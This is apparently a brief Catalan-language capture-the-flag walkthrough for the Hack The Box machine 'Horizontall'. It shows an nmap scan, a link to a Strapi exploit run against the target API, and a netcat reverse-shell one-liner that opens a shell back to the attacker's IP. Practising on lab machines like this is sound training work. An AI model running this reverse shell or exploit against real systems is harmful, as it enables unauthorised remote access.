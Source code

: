 Ens afegim la ip 10.10.11.105 al fitxer host

10.10.11.105 horizontall.htb

nmap:

nmap -p- -sV 10.10.11.105
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-03 18:35 CET
Nmap scan report for horizontall.htb (10.10.11.105)
Host is up (0.056s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


Wappalyzer diu:

nginx 1.14.0

COPIEM L'SCRIPT EN PYTHON QUE UTILITZA UNA VULNERAVILITAT DE strapi

https://www.exploit-db.com/exploits/50239

python script.py http://api-prod.horizontall.htb/

COMANDA PER OBRIR UN TERMINAL REMOT CAP AL NOSTRE HOST:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.18 3535 >/tmp/f

Per trobar la versio dstrapi en el codi:

api-prod..../admin/init -> tambe hi ha la versio de l'strapi

strapi.*[123]\.[0]\.\d

